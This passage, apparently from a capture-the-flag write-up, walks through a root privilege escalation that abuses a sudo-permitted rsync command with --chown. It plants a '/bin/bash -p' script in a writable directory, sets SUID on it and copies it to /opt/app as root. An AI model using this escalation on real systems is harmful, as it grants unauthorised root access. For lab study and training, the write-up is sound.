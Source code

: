 It has some interesting arguments  

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009154906.png" alt="1" style="width:700px; height:auto;">
<br/>

`--chmod` and `--chown` to change `ownership` and `permissions` of directory or a specific file  

- The command let us actually copy all the content of the  `/home/dev/app-production/`  in the `/opt/app` as `root`
-  We have write access on the `/home/dev/app-production/` directory so what we can do is add a malicious script called `rooted`

```bash
/bin/bash -p
```

- give `SUID` binary to the file 

```bash
chmod +s /home/dev/app-production/rooted
```

- execute the following command 

```bash
sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/ --chown root:root /opt/app/
```

<br/> 